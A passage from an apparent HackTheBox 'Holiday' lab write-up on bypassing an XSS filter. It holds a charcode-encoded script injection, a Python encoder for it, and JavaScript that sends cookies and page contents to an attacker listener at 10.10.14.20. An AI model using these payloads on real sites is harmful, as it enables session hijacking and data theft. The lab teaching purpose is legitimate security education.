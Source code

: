 We see that it does not render correctly because of the quotes and spaces which the server is blocking and filtering. So we must develop an alternative for this bypass.

After some hard trial and error, we found that it render just charcode. As this [link](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html) showed me.

```
<img src="/><script>eval(String.fromCharCode(... payload ...))</script>" />
```

We create a simple python script to encode the payload

char.py

```py
#!/usr/bin/python3

target = "new Image().src='http://10.10.14.20/cookie='+document.cookie;"
result = []
for c in target:
    result.append(str(ord(c)))
print ', '.join(result)
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-25-HackTheBox-Holiday/2021-09-25-HackTheBox-Holiday%2008:50:07.png)

So I try a simple XSS, to see if I can get the things working well

```
<img src="/><script>eval(String.fromCharCode(110, 101, 119, 32, 73, 109, 97, 103, 101, 40, 41, 46, 115, 114, 99, 61, 39, 104, 116, 116, 112, 58, 47, 47, 49, 48, 46, 49, 48, 46, 49, 52, 46, 50, 48, 47, 99, 111, 111, 107, 105, 101, 61, 39, 43, 100, 111, 99, 117, 109, 101, 110, 116, 46, 99, 111, 111, 107, 105, 101, 59))</script>" />
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-25-HackTheBox-Holiday/2021-09-25-HackTheBox-Holiday%2008:50:44.png)

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-25-HackTheBox-Holiday/2021-09-25-HackTheBox-Holiday%2008:50:56.png)

Well, it worked, so now we can start building some more complex payloads

We look at the information of the cookie on my RickA session, HttpOnly is seted to true, so I cannot get the document.cookie by this way. We can do a sort of things to get it

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-25-HackTheBox-Holiday/2021-09-25-HackTheBox-Holiday%2008:53:26.png)

First, we will simply try to get the admin page, to see what it's inside it

0x4rt3mis.js

```js
var req=new XMLHttpRequest();
req.open('GET', 'http://10.10.14.20:9090/?xss=' + btoa(document.body.innerHTML), true);
req.send();
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-25-HackTheBox-Holiday/2021-09-25-HackTheBox-Holiday%2006:41:14.png)
